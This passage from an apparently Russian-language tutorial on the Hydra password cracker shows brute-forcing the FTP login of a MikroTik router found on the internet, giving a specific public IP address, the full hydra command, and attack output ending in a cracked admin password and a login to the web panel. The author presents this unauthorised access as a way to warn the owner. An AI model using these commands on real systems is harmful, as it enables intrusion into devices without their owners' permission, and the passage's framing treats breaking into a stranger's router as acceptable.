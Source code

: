 Пабам - и через 1 секунду _стандартный_ пароль `admin` успешно сбручен!

#### FTP

Другой пример - случайно находим в сети роутер MikroTik, да с открытыми наружу портами 80 (http) и 21 (ftp). Решаем сообщить его владельцу о наличии данной неприятности, но для этого нужно сперва получить доступ к этому самому микротику.

Брутить вебморду микротика можно, но проходит это значительно медленнее, чем например брутить ftp. А мы знаем, что стандартный логин на микротиках `admin`, и используется один пароль ко всем сервисам. Получив пароль для ftp - получим доступ ко всему остальному:

![screenshot](https://habrastorage.org/files/01f/0d6/e97/01f0d6e979af4ac6a654c89a7923fd02)

Исходные данные:

- IP сервера `178.72.83.246`
- Сервис `ftp`
- Стандартный логин `admin`
- Порт, на котором работает ftp сервер `21` (_стандартный_)

Запускаем гидру:

```bash
$ hydra -l admin -P ~/pass_lists/all_small_dic.txt -o ./hydra_result.log -f -V -s 21 178.72.83.246 ftp
```

И наблюдаем процесс подбора (_~900 паролей в минуту_):

```bash
[DATA] max 16 tasks per 1 server, overall 64 tasks, 4106 login tries (l:1/p:4106), ~4 tries per task
[DATA] attacking service ftp on port 21
[ATTEMPT] target 178.72.83.246 - login "admin" - pass "" - 1 of 4106 [child 0]
[ATTEMPT] target 178.72.83.246 - login "admin" - pass "!@#$%" - 2 of 4106 [child 1]
[ATTEMPT] target 178.72.83.246 - login "admin" - pass "!@#$%^" - 3 of 4106 [child 2]
[ATTEMPT] target 178.72.83.246 - login "admin" - pass "!@#$%^&" - 4 of 4106 [child 3]
...
[ATTEMPT] target 178.72.83.246 - login "admin" - pass "adminadmin" - 249 of 488 [child 5]
[ATTEMPT] target 178.72.83.246 - login "admin" - pass "administrat0r" - 250 of 488 [child 0]
[ATTEMPT] target 178.72.83.246 - login "admin" - pass "administrator" - 251 of 488 [child 14]
[21][ftp] host: 178.72.83.246   login: admin   password: adminadmin
#                               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
[STATUS] attack finished for 178.72.83.246 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-08-12 13:46:51
```

Спустя каких то 30 секунд ещё один словарный пароль `adminadmin` был успешно подобран. После этого успешно логинимся в веб-панель:

![screenshot](https://habrastorage.org/files/7c2/bba/0cb/7c2bba0cbb864ce6953a3a7adcf0dc9c)

Выясняем контакты администратора, сообщаем ему о наличии уязвимости, и больше ничего не делаем ;)

#### Веб - авторизация
